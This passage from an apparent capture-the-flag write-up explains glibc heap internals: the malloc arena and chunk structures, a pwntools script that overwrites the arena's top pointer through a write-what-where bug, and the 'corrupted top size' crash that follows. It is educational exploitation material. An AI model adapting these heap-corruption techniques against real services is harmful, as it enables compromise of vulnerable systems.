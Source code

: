 And it is! In IDA Pro, this part of libc was labelled as the uninspiring `dword_1EBB80`, so this was definitely a lucky find.

With a bit of [searching](https://heap-exploitation.dhavalkapil.com/diving_into_glibc_heap/malloc_state), we can find the structure of the arena:
```c
struct malloc_state {
  __libc_lock_define (, mutex);
  int flags;
  int have_fastchunks;
  mfastbinptr fastbinsY[NFASTBINS]; // starts from 0x10 (?)
  mchunkptr top;    // This is +0x60
  mchunkptr last_remainder;
  mchunkptr bins[NBINS * 2 - 2];
  unsigned int binmap[BINMAPSIZE];
  struct malloc_state *next;
  struct malloc_state *next_free;
  INTERNAL_SIZE_T attached_threads;
  INTERNAL_SIZE_T system_mem;
  INTERNAL_SIZE_T max_system_mem;
}
```
Of particular note are the various `m.*ptr` variables, as well as the `next.*` pointers. Overwriting any of these could change the behaviour of the heap.

I started off by overwriting the `top` pointer, assessing what would happen if I replaced it with a pointer to garbage bytes
```python
#free_hook = 0x00000000001EEB28+context.libc.address
arena = 0x1EBB80 + context.libc.address
r.sendafter('Input your message:', b'a'*500)
r.sendafter('Where to write?:', pack(arena + 0x60))
r.sendafter('Any last message?:', b'\0')

r.interactive()
```
We get an interesting crash:
```python
[DEBUG] Received 0x10 bytes:
    b'Where to write?:'
[DEBUG] Sent 0x8 bytes:
    00000000  e0 cb 02 12  02 7f 00 00                            │····│····│
    00000008
[DEBUG] Received 0x1d bytes:
    b'malloc(): corrupted top size\n'
Traceback (most recent call last):
```
The top chunk, like all malloc'd chunks, follows the following format:
```c
struct malloc_chunk {
  INTERNAL_SIZE_T      mchunk_prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      mchunk_size;       /* Size in bytes, including overhead. */
  struct malloc_chunk *fd, *bk;         /* double links -- used only if free. */
  struct malloc_chunk *fd_nextsize, *bk_nextsize; /* double links -- used only if free. */
}
```
glibc [detects](https://elixir.bootlin.com/glibc/glibc-2.31.9000/source/malloc/malloc.c#L4106) that the top chunk is a bit too large, and sends the program to abort:
```c
static void *_int_malloc (mstate av, size_t bytes) {
    ...
    if (__glibc_unlikely (size > av->system_mem))
        malloc_printerr ("malloc(): corrupted top size");
    ...
}
```